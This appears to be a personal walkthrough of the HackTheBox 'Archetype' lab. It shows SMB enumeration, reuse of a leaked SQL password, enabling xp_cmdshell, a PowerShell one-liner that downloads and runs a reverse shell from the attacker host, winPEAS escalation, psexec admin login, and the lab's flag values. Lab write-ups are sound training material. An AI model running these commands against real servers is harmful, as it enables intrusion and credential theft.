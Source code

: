 # [HTB] Archetype
> [reference](https://systemweakness.com/archetype-hackthebox-walkthrough-be99a1fba8ea)

## details
- Hostname: `Archetype`
- IP: `10.129.185.22`

## recon
- [nmap scan](./nmap.log)
	- cmd: `nmap -sC -sV -A -o nmap.log [Target_IP]`
	- open smb (p139 & p445) and sql server (Microsoft SQL Server 2017)
	- windows os detected

## hacking
- smb _guest_ login allowed (`smbclient -L [Target_IP]`)
	- shared folders: `ADMIN$`, `backups`, `C$`, `IPC$`
	- found `prod.dtsConfig` in `backups`
		- found `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc` (probable _sql logins_)

- using an __impacket__ script for connecting
	- cmd: `python3 /opt/impacket/examples/mssqlclient.py Archetype/sql_svc@[Target_IP] -windows-auth`
	- got access to the sql server!

- check what priv we have `SELECT is_srvrolemember('sysadmin');` (1=T)
- `xp_cmdshell` can be exploited to gain reverse shell (reference: [1](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), [2](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16))
- type following cmds (to enable _xp_cmdshell_):
```
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

- `python3 -m http.server` on attacker machine (req. for _rev sh_ & _winpeas_)

- now lets get a __reverse shell__
	- download [powershell_reverse_shell.ps1](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1) (attacker machine)
	- `nc -lvnp 4444` (attacker machine)
	- `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://[Your_tun0_IP]:8000/powershell_reverse_shell.ps1\");"` (sql cmdline)
	- got rev shell!

 - using [`winpeas`](https://github.com/carlospolop/PEASS-ng/releases/)
 	- exec `powershell` > `wget http://[Your_tun0_IP]:8000/winPEASx64.exe -outfile winPEASx64.exe` > `./winPEASx64.exe`
 	- found `C:\Users\sql_svc\Desktop\user.txt: 3e7b102e78218e935bf3f4951fec21a3`
 	- found `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
	- cmd: `type C:\<path>\ConsoleHost_history.txt`
		- got `net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!`

- to login we need `psexec.py`
	- cmd: `python3 /opt/impacket/examples/psexec.py administrator@[Target_IP]`
	- got admin access!
	- found `C:\Users\Administrator\Desktop\root.txt` > `b91ccec3305e98240082d4474b848528`

